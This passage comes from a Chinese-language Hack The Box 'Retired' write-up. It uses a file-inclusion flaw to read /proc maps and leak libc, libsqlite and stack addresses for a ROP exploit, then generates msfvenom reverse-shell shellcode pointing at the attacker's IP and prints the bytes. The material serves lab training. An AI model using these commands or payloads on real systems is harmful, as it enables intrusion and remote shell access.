 如前所述，在启用 NX 的情况下，我们将使用 ROP 小工具来解决它，因此接下来我们需要知道 libc-2.31.so 和 libsqlite3.so.0.8.6 的当前内存地址。内存地址是动态的，这意味着每次重新启动机器时，地址都会发生变化，我们可以使用/proc 中的 maps 文件来获取当前值:

```
┌──(root㉿kali)-[~/htb/retired]
└─# libc_start=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "/usr/lib/x86_64-linux-gnu/libc-2.31.so" | awk -F[-] '{print $1}')

┌──(root㉿kali)-[~/htb/retired]
└─# libsqlite_start=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6" | awk -F[-] '{print $1}')
```

我们还需要堆栈地址:

```
┌──(root㉿kali)-[~/htb/retired]
└─# stack_start=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "stack" | awk -F[-] '{print $1}')

┌──(root㉿kali)-[~/htb/retired]
└─# stack_end=$(curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps" | grep -m 1 "stack" | awk -F[-] '{print $2}' | cut -d ' ' -f 1)
```

记下我们脚本的值:

```
┌──(root㉿kali)-[~/htb/retired]
└─# echo $libc_start, $libsqlite_start, $stack_start, $stack_end
7fb1ff018000, 7fb1ff1dd000, 7fffddc82000, 7fffddca3000
```

# MSFVenom 外壳代码

我们还需要一个有效载荷。我们可以使用 msfvenom 创建 Python 友好格式的外壳代码，它指向我们当前的 Kali IP 和端口:

```
┌──(root㉿kali)-[~/htb/retired]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.198 LPORT=4444 -f py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of py file: 373 bytes
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x0a\x0a\x0e\xc6\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
```
